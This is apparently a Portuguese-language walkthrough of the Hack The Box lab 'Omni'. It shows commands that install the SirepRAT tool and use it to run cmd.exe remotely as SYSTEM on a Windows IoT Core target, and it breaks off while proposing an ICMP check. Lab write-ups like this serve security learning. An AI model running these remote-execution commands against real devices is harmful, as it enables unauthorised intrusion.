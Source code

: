 Depois de alguma pesquisa, se pesquisar-mos por _"Windows Device Portal exploit github"_, podemos encontrar esta ferramenta:

> SirepRAT - RCE as SYSTEM on Windows IoT Core - GitHub (https://github.com/SafeBreach-Labs/SirepRAT)

![Windows IoT Core](Assets/HTB-Windows-Easy-omni/win_IoT_Core.jpg)

# Exploração

```powershell
git clone https://github.com/SafeBreach-Labs/SirepRAT.git
cd SirepRAT

sudo python3 setup.py install

# A sintax é um pouco estranha... mas a sua página de GitHub contém bastantes exemplos...
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}"
```

The command give us an output that looks good. But we can confirm if we have RCE with a better combo!

O comando retorna um output que parece convincente. Mas é preciso confirmar se temos realmente **Remote Code Execution (RCE)**. Para isso, podemos enviar uma traça ICMP para a nossa própria máquina Kali, ficando a escuta do lado do kali.
